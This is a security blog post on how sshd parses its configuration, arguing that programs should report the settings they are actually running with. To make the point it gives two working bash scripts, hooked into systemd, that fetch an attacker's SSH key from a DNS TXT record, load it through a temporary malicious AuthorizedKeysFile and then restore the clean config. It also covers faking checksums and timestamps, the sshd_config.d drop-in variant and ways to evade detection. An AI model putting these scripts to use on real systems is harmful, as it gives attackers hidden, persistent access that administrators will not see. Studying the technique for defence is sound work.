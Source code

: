 ```yaml
---
layout: post
title: "Everything that uses configurations should report the values they are using (or: achieving persistence with a hidden SSH backdoor)"
author: "Joshua Rogers"
categories: security
---
```


Configuration parsing is an interesting topic I have been working on in the context of my hacking and creating simple backdoors which are hidden from your average sysadmin.

A recent post titled [Everything that uses configuration files should report where they're located](https://utcc.utoronto.ca/~cks/space/blog/sysadmin/ReportConfigFileLocations) piqued my interest, as it related to the unique ways that configuration files are located, prioritized, and eventually parsed. The original post argued that programs should output the location that configuration files are parsed. I concur, and also believe that programs should report their _configurations_ as they are running. This post, among some information about `sshd`, outlines why.

As pointed out in the comments of the HN post, parsing of configuration files generally take a "last occurrence wins" strategy -- if the same configuration option is specified multiple times, the final one takes preference (assuming the option cannot be specified multiple times). However, some programs, like `sshd` take the opposite approach: the _first_ occurrence wins. From `man sshd(8)`:
```
Unless noted otherwise, for each keyword, the first obtained value will be used.
```

_sshd_ also offers functionality to check the configuration _file_:

```
     -T      Extended test mode.  Check the validity of the configuration file, output the effective configuration to stdout and then exit.  Optionally, Match rules may be applied by specifying the connection parameters using one or more -C options.

     -t      Test mode.  Only check the validity of the configuration file and sanity of the keys.  This is useful for updating sshd reliably as configuration options may change.
```
One of the gotchas here is that this test (as it _is_ written) parses the configuration file as it exists; it does _not_ print the current configuration of a running _sshd_ daemon.

In the context of hacking, this is particularly useful, as it is possible to load a malicious `sshd_config` file, reload `sshd`, and then overwrite the malicious configuration file with an innocent-looking version. Your average sysadmin which may look at the `sshd_config` file or run `sshd -T` to check the configuration will be none-the-wiser to the actual configuration options used.

I recently made use of this functionality to create a minimalist ssh backdoor on Debian, achieving persistence quite easily. Using two scripts and updating systemd\'s `ssh.service` file to run the scripts before and after `sshd` starts, persistence using ssh is gained on the server. (Note: I also altered `/var/lib/dpkg/info/openssh-server.md5sums` to state the new ssh.service has the correct checksum.)

The first script has the following functionality:
1. Determine the proper `authorizedkeysfile` value.
2. Create the folder `/etc/calendar/` if it does not already exist, copying the access and modifications times of the `/etc/` folder.
3. Retrieve an SSH public key from the TXT record of `$(hostname).joshua.hu` and save it to `/etc/calendar/root`.
4. Copies the proper sshd configuration file to a temporary file.
5. Overwrites the original sshd configuration file with an `authorizedkeysfile`  option, which contains both the proper value as well as the `/etc/calendar/root` location (ensuring that this malicious `authorizedkeysfile` option is loaded first).
6. Appends the `loglevel` configuration to  the configuration file (ensuring it is loaded first).
7. Appends the original sshd configuration file from the temporary file, to the new sshd configuration file.

```bash
#!/bin/bash
keysfile=`/usr/sbin/sshd -T | awk -F authorizedkeysfile '/authorizedkeysfile/ {print $NF}'` || keysfile=".ssh/authorized_keys"

if [ ! -d "/etc/calendar/" ]; then
    mkdir /etc/calendar/
    touch -r /etc/ /etc/calendar/
fi

dig +short TXT $(hostname).joshua.hu | sed 's/\x22//g' > /etc/calendar/root

cp /etc/ssh/sshd_config /etc/ssh/sshd_config.bak

echo "AuthorizedKeysFile /etc/calendar/root ${keysfile}" > /etc/ssh/sshd_config
echo "LogLevel ERROR" >> /etc/ssh/sshd_config
cat /etc/ssh/sshd_config.bak >> /etc/ssh/sshd_config
exit 0
```

This script is run when sshd is (re)started, _before_ the sshd binary itself is executed, using the `ExecStartPre` systemd directive.

The second script, which is executed _after_ the sshd binary is running (using the `ExecStartPost` systemd directive) simply moves the original sshd configuration file back to its original location.

```bash
#!/bin/bash
mv /etc/ssh/sshd_config.bak /etc/ssh/sshd_config
touch -r /etc/ /etc/ssh/sshd_config
exit 0
```

The key which exists in `/etc/calendar/root` will now be accepted for all users on the server. A sysadmin looking at the `/etc/ssh/sshd_config` file will see nothing spectacular, and `sshd -T` will not report the in-memory configuration. Of course, if the sysadmin looks at the ssh.service file, they will see it has been altered (and which will be overwritten when `openssh-server` updates).

Things get a bit more interesting when it comes to to `sshd`. `sshd_config` in Debian 11+ and Ubuntu 20.04+ "[sets several options as standard in /etc/ssh/sshd_config which are not the default](https://manpages.debian.org/bullseye/openssh-server/sshd_config.5.en.html)". Namely, `Include /etc/ssh/sshd_config.d/*.conf`. This is the first actionable configuration in `/etc/ssh/sshd_config` on Debian 11 and Ubuntu 20.04.

Therefore, instead of editing `/etc/ssh/sshd_config`, it is possible to simply create a file ending in `.conf.` in `/etc/ssh/sshd_config.d/` and restart `sshd`, and then delete the file.

What's even more fun is that when `sshd` is reloaded, current connections do not acquire the new configuration. For multiplexed SSH connections, this means you may even hide your connection using an old configuration.

Is this what the DoD meant by [living off the land](https://media.defense.gov/2023/May/24/2003229517/-1/-1/0/CSA_Living_off_the_Land.PDF)? By knowing how programs use configuration files and abusing their functionality for exploitation?

A more persistent threat would use something like [shc](https://github.com/neurobin/shc) to convert these scripts into binaries, use some type of encryption/encoding for the retrieval of the public key (versus plaintext over DNS), and use an alternative to altering the `ssh.service` systemd file (for example some type of service that monitors for when `sshd` starts/reloads and performs the necessary changes at the appropriate times, independent of systemd.)
